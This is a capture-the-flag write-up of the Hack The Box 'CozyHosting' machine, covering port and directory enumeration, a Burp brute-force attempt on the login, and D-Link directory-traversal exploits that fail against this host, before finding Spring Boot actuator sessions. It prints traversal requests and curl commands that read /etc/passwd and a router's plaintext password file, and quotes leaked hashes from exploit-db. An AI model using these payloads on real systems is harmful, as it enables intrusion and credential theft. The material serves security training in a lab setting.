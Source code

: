 ```yaml
---
description: https://app.hackthebox.com/machines/CozyHosting
---
```


# CozyHosting

Nmap

```
-[Tue Feb 27-13:46:47]-[table@parrot]-
-[~]$ nmap -sV -sC -T5 10.10.11.230
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-27 13:46 PST
Nmap scan report for 10.10.11.230
Host is up (0.082s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 43:56:bc:a7:f2:ec:46:dd:c1:0f:83:30:4c:2c:aa:a8 (ECDSA)
|_  256 6f:7a:6c:3f:a6:8d:e2:75:95:d4:7b:71:ac:4f:7e:42 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://cozyhosting.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.09 seconds
```

Gobuster

```
-[Tue Feb 27-13:49:14]-[table@parrot]-
-[~]$ gobuster dir -u http://cozyhosting.htb/ --wordlist /usr/share/dirb/wordlists/common.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://cozyhosting.htb/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 401) [Size: 97]
/error                (Status: 500) [Size: 73]
/index                (Status: 200) [Size: 12706]
/login                (Status: 200) [Size: 4431]
/logout               (Status: 204) [Size: 0]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================

```

whatweb

```
-[Wed Feb 28-15:57:13]-[table@parrot]-
-[~]$ whatweb http://cozyhosting.htb/
http://cozyhosting.htb/ [200 OK] Bootstrap, Content-Language[en-US], Country[RESERVED][ZZ], Email[info@cozyhosting.htb], HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.10.11.230], Lightbox, Script, Title[Cozy Hosting - Home], UncommonHeaders[x-content-type-options], X-Frame-Options[DENY], X-XSS-Protection[0], nginx[1.18.0]

```

Attempting to login to the web portal using BurpSuite Intruder tab. This would be better if the BurpSuiteCE wasnt rate limited. Taking a long time to go through 168 million possibilities.\
Probably best to move on, now I will try to enumerate using the http-enum nmap script:

```
-[Wed Feb 28-16:07:37]-[table@parrot]-
-[~]$ nmap -sV --script=http-enum 10.10.11.230 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-28 16:43 PST
Nmap scan report for cozyhosting.htb (10.10.11.230)
Host is up (0.085s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http        nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-enum: 
|   //system.html: CMNC-200 IP Camera
|   /Citrix//AccessPlatform/auth/clientscripts/cookies.js: Citrix
|   /.nsf/../winnt/win.ini: Lotus Domino
|   /uir//etc/passwd: Possible D-Link router directory traversal vulnerability (CVE-2018-10822)
|_  /uir//tmp/csman/0: Possible D-Link router plaintext password file exposure (CVE-2018-10824)
9000/tcp open  cslistener?
9999/tcp open  abyss?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 278.74 seconds

```

We get two listed vulnerabilities so let's try to exploit them.

### Exploitation

First, researching CVE-2018-10822, this vulnerability allows for directory traversal in the web interface on D-Link DWR-116 through 1.06, DIR-140L through 1.02, DIR-640L through 1.02, DWR-512 through 2.02, DWR-712 through 2.02, DWR-912 through 2.02, DWR-921 through 2.02, and DWR-111 through 1.01 devices. We can read arbitrary files via a /.. or // after "GET /uir" in an HTTP request:

```
GET /uri//etc/passwd
```

It may work in that it is not returning an error page, but there is more to do to see the contents. Let's research the CVE-2018-10824 vulnerability. It appears the administrative password is stored in plaintext in the /tmp/csman/0 file.

```
curl -X GET "http://cozyhosting.htb/uri//tmp/csman/0"
```

No luck there, further research. I found a github for a .yaml file relating to CVE-2018-10822. In the code I noticed the reference to exlpoit-db exploit # 45678.

Using searchsploit we find an exploit to try:

```
-[Wed Feb 28-17:19:34]-[table@parrot]-
-[~]$ searchsploit 45678
-------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                              |  Path
-------------------------------------------------------------------------------------------- ---------------------------------
D-Link Routers - Directory Traversal                                                        | hardware/webapps/45678.md
-------------------------------------------------------------------------------------------- ---------------------------------
-------------------------------------------------------------------------------------------- ---------------------------------
 Shellcode Title                                                                            |  Path
-------------------------------------------------------------------------------------------- ---------------------------------
Linux/x64 - Bind_tcp (0.0.0.0:4444) + Password (12345678) + Shell (/bin/sh) Shellcode (142  | linux/49472.c
-------------------------------------------------------------------------------------------- ---------------------------------
Papers: No Results

```

From the research, it is interesting to note that the vulnerability can be used retrieve administrative password using the other disclosed vulnerability - CVE-2018-10824.

This vulnerability was reported previously by Patryk Bogdan in CVE-2017-6190 but he reported it is fixed in certain release but unfortunately it is still present in even newer releases. The vulnerability is also present in other D-Link routers and can be exploited not only (as the original author stated) by double dot but also absolutely using double slash.

Let's try to curl the ip address file location of passwd

```
-[Wed Feb 28-17:23:50]-[table@parrot]-
-[~]$ curl http://10.10.11.230/uir//etc/passwd
<html>
<head><title>301 Moved Permanently</title></head>
<body>
<center><h1>301 Moved Permanently</h1></center>
<hr><center>nginx/1.18.0 (Ubuntu)</center>
</body>
</html>

```

Interesting, we can check online to see if searching the previously known vulnerability that was not fixed, CVE-2017-6190, yields anything more.

We find in exploit-db exploit # 41840, we see:

```
HTTP Request:
GET /uir/../../../../../../../../../../../../../../../../etc/passwd HTTP/1.1
Host: 192.168.2.1
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close

HTTP Response:
HTTP/1.0 200 OK
Content-Type: application/x-none
Cache-Control: max-age=60
Connection: close

root:$1$$taUxCLWfe3rCh2ylnFWJ41:0:0:root:/root:/bin/ash
nobody:$1$$qRPK7m23GJusamGpoGLby/:99:99:nobody:/var/usb:/sbin/nologin
ftp:$1$$qRPK7m23GJusamGpoGLby/:14:50:FTP USER:/var/usb:/sbin/nologin


```

This is the right path but we must think harder on this. We could use the curl command again and follow the redirect with -L. Doing so takes us to the homepage though.

Using curl we find out Bootstrap's version Bootstrap v5.2.3. Searching for vulnerabilities, there are no direct vulnerabilities.

Another promising exploit website

{% embed url="https://sploit.tech/2018/10/12/D-Link.html" %}

Exploit is for a router.

There is a Whitelabel Error page, meaning no explicit mapping for /error. Researching this further.

The Whitelabel error parge is a result of the websites structure, by default Spring Boot will scan the components below your main application class.\
As of Spring Boot 2.0.0.RELEASE the default prefix for all endpoints is /actuator

Let's check that url:

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

We see sessions

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>
